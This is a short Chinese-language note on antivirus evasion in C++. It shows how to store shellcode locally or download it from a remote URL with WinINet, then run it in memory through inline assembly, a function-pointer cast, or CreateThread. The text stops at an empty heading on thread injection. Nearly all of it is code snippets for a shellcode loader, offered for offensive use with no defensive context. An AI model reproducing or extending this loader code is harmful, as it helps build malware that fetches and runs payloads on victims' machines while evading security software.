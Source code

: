 # C++免杀

#### 获取

##### 一 本地

将shellcode写在文件里

```c
char buf[] = "";
```

##### 二 远程

利用wininet远程加载shellcode

```c
HINTERNET hinternet = InternetOpen(L"myapp", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
HINTERNET hConnect = InternetOpenUrlA(hinternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0); //创建链接

DWORD readbytes;
InternetReadFile(hConnect, buf, sc_len, &readbytes);	//读
```

使用wininet库时

```c
#include<wininet.h>
#pragma comment(lib, "wininet.lib")
```

#### 运行

##### 一 内联汇编加载

```c
__asm {
	lea eax, buf	//buf处为shellcode
	call eax
}
```

vs不支持x64内联汇编，64位程序使用Intel编译器

##### 二 函数指针加载

```c
((void(*)(void)) buf)();
```

##### 三 通过线程启动

```c
CreateThread(NULL, 0, Memory, NULL, 0, NULL);
WaitForSingleObject(hThread, INFINITE); 	//等待线程创建
```

##### 四 线程注入
